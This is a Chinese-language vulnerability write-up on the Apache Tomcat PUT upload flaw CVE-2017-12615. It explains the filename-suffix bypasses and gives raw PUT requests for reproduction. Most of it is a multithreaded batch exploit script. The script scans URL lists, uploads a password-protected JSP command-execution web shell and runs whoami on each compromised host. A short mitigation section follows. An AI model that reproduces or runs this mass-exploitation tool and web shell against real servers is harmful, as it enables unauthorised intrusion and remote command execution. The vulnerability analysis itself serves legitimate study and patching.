





## 漏洞概述
**远程代码执行漏洞（CVE-2017-12615）    影响： Apache Tomcat 7.0.0 - 7.0.79（7.0.81修复不完全）**

当 Tomcat 运行在 Windows 主机上，且启用了 HTTP PUT 请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求向服务器上传包含任意代码的 JSP 文件。之后，JSP 文件中的代码将能被服务器执行。

<!-- more -->
## 基本信息
漏洞名称：Tomcat任意文件上传漏洞

漏洞编号：CVE-2017-12615

漏洞影响：上传包含任意代码的文件，并被服务器执行。

影响平台：Windows/Linux

影响版本：Apache Tomcat <= 7.0.81 | Apache Tomcat <= 8.5.20 | Apache Tomcat <= 9.0.0.M26

## 原理分析
本漏洞涉及到 DefaultServlet和 JspServlet，DefaultServlet的作用是处理静态文件 ，JspServlet 的作用是处理jsp 与jspx 文件的请求，同时DefaultServlet 可以处理 PUT 或 DELETE请求。

除了jsp和jspx默认是由org.apache.jasper.servlet.JspServlet处理，其他默认都是由org.apache.catalina.servlets.DefaultServlet来处理。

即使设置readonly为false，默认tomcat也不允许PUT上传jsp和jspx文件的，因为后端都用org.apache.jasper.servlet.JspServlet来处理jsp或是jspx后缀的请求了，而JspServlet中没有PUT上传的逻辑，PUT的代码实现只存在于DefaultServlet中。

这个漏洞的根本是通过构造特殊后缀名，绕过了tomcat检测，让它用DefaultServlet的逻辑去处理请求，从而上传jsp文件。

目前主要三种方法：

l evil.jsp%20

l evil.jsp::$DATA

l evil.jsp/


## 复现过程
- ### 0x00 安装Tomcat 7.0.79


- ### 0x01 开启HTTP PUT

修改Tomcat 7.0/conf/web.xml文件
添加readonly属性，使者readonly=false.
```xml
    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
        <init-param>
            <param-name>readonly</param-name>
            <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
```
然后，重启Tomcat。

- ### 0x02 任意文件上传 · 姿势一
思路：参考微软MSDN上关于NTFS Streams的一段资料[https://msdn.microsoft.com/en-us/library/dn393272.aspx](https://msdn.microsoft.com/en-us/library/dn393272.aspx)
```
All files on an NTFS volume consist of at least one stream - the main stream – this is the normal, viewable file in which data is stored. The full name of a stream is of the form below.

    <filename>:<stream name>:<stream type>

The default data stream has no name. That is, the fully qualified name for the default stream for a file called "sample.txt" is "sample.txt::$DATA" since "sample.txt" is the name of the file and "$DATA" is the stream type.
```

payload ::
```
PUT /111.jsp::$DATA HTTP/1.1
Host: 10.1.1.6:8080
User-Agent: JNTASS
DNT: 1
Connection: close

...jsp shell...
```

写入成功！

- ### 0x03 任意文件上传 · 姿势二 （可攻击Tomcat 7.0.81）

思路：可以上传jSp文件(但不能解析)，却不可上传jsp。 说明tomcat对jsp是做了一定处理的。那么就考虑是否可以使其处理过程中对文件名的识别存在差异性，前面的流程中 test.jsp/ 识别为非jsp文件，而后续保存文件的时候，文件名不接受/字符，故而忽略掉。

payload ::
```
PUT /222.jsp/ HTTP/1.1
Host: 10.1.1.6:8080
User-Agent: JNTASS
DNT: 1
Connection: close

...jsp shell...
```

写入成功！

- ### 0x04 菜刀连接




## 批量EXP脚本
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import argparse
import requests
import sys
import time
import threading
import queue
import re
from lxml import html

class Attacker(object):
    def __init__(self,urlList,threads,output):
        self.urlList=urlList
        self.threads=threads
        self.optput=output
        self.print_lock=threading.Lock()
        self.savaFile_lock=threading.Lock()

    def run_thread(self):
        thread_arr=[]
        for i in range(self.threads):
            t=threading.Thread(target=self.attack)
            thread_arr.append(t)
        for i in range(self.threads):
            thread_arr[i].start()
        for i in range(self.threads):
            thread_arr[i].join()
    def saveResultToFile(self,message):
        if self.optput is not None:
            with open(self.optput, 'a+', encoding = 'utf8') as f:  # 以追加的方法结果写入文件
                f.write(message[0]+"\t")
                f.write(message[1]+"\n")

    def attack(self):
        body = '''<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
        +"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("W3akPassw0rd".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>'''

        while not self.urlList.empty():

            url=self.urlList.get()
            protocol=re.search(r"(https?)\:\/\/(.*?)\/",url+"/").group(1)
            host=re.search(r"(https?)\:\/\/(.*?)\/",url+"/").group(2)
            self.print_lock.acquire()
            print(" \b\b"*100,end="")
            print("\r[about "+str(self.urlList.qsize())+" left]\t"+"trying attack :: "+protocol+"://"+host,end="")
            self.print_lock.release()
            try:

                req = requests.options(url=protocol+"://"+host+"/b4acde76d8daf7a7b3b55670ed4f245c",timeout=10)
                if 'allow' in req.headers and req.headers['allow'].find("PUT")>0 :
                    uploadevil=requests.put(url=protocol+"://"+host+"/b4acde76d8daf7a7b3b55670ed4f245c.jsp/",data=body,timeout=10)
                    if (uploadevil.status_code == 201) or (uploadevil.status_code == 204):
                        execWhoami=requests.get(url=protocol+"://"+host+"/b4acde76d8daf7a7b3b55670ed4f245c.jsp?pwd=W3akPassw0rd&cmd=whoami",timeout=10)
                        #print(execWhoami.text)
                        #whoami=re.search(r"<pre>(.*)<\/pre>",execWhoami.text).group(1)
                        whoami=html.fromstring(execWhoami.text).text_content()
                        self.print_lock.acquire()
                        print(" \b\b"*100,end="")
                        print("\r🍻   "+protocol+"://"+host+"/b4acde76d8daf7a7b3b55670ed4f245c.jsp?pwd=W3akPassw0rd&cmd=whoami\t"+whoami)
                        if self.optput is not None:
                            self.saveResultToFile((protocol+"://"+host+"/b4acde76d8daf7a7b3b55670ed4f245c.jsp",whoami))
                        self.print_lock.release()
                    
                    else:
                        pass
                else:
                    pass
            except:
                pass
                #self.print_lock.acquire()
                #print("\tFailed...   Next...")
                #self.print_lock.release()
        print(" \b\b"*100,end="")

def readUrls(listFile):
    fd=open(listFile,"rb")
    lines=fd.readlines()
    fd.close()

    urlList=queue.Queue()

    for url in lines:
        urlList.put(url.decode("ascii"))
    return urlList

def main():
    headCharPic="\r        .--.\n       |o_o |    ------------------ \n       |:_/ |   < Author: Mr.Bingo >\n      //   \ \   ------------------ \n     (|     | ) <    oddboy.cn     >\n    /'\_   _/`\  ------------------\n    \___)=(___/\n"
    print(headCharPic)
    # Creating a parser
    parser=argparse.ArgumentParser()

    groupUser = parser.add_mutually_exclusive_group(required=True)
    groupUser.add_argument('-u',dest="url",help="target url")
    groupUser.add_argument('-U',dest='urlFile',help="url list file")
    parser.add_argument('-t',dest="threads",default=1,type=int,help="threads")
    parser.add_argument('-o',dest="outFile",help="output results")

    args=parser.parse_args()

    if args.urlFile is not None:
        urlList=readUrls(args.urlFile)
    else:
        urlList=queue.Queue()
        urlList.put(args.url)
    if args.outFile is not None:
        filePath,fileName=os.path.split(fileFullPath)
        if (filePath!="") and (not os.path.exists(filePath)):
            os.mikedirs(filePath)   # 若不存在这个目录则递归创建
    
    Attacker_obj=Attacker(urlList,args.threads,args.outFile)
    Attacker_obj.run_thread()

if __name__ == '__main__':
    main()
    print("\n@@@   Done   @@@")
```


## 漏洞总结

该漏洞利用的前提条件需要手动开启readOnly功能，以支持上传操作，默认配置的情况下是无法成功利用漏洞，从实际测试来看，漏洞危害性并没有那么高。但是如果用户一旦启用了readOnly功能，黑客可利用漏洞成功入侵。

根据业务评估配置conf/webxml文件的readOnly值为Ture或注释参数，禁用PUT方法并重启tomcat服务，临时规避安全风险；
注意： 如果禁用PUT方法，对于依赖PUT方法的应用，可能导致业务失效。


## 参考链接

- [NTFS Streams | https://msdn.microsoft.com/en-us/library/dn393272.aspx](https://msdn.microsoft.com/en-us/library/dn393272.aspx)
- [http://tomcat.apache.org/security-7.html#Fixed_in_Apache_Tomcat_7.0.81](http://tomcat.apache.org/security-7.html#Fixed_in_Apache_Tomcat_7.0.81)

- [Tomcat信息泄漏和远程代码执行漏洞分析报告（CVE-2017-12615/CVE-2017-12616）](https://mp.weixin.qq.com/s/wWkb079hUYOwDgVQqEqGZQ)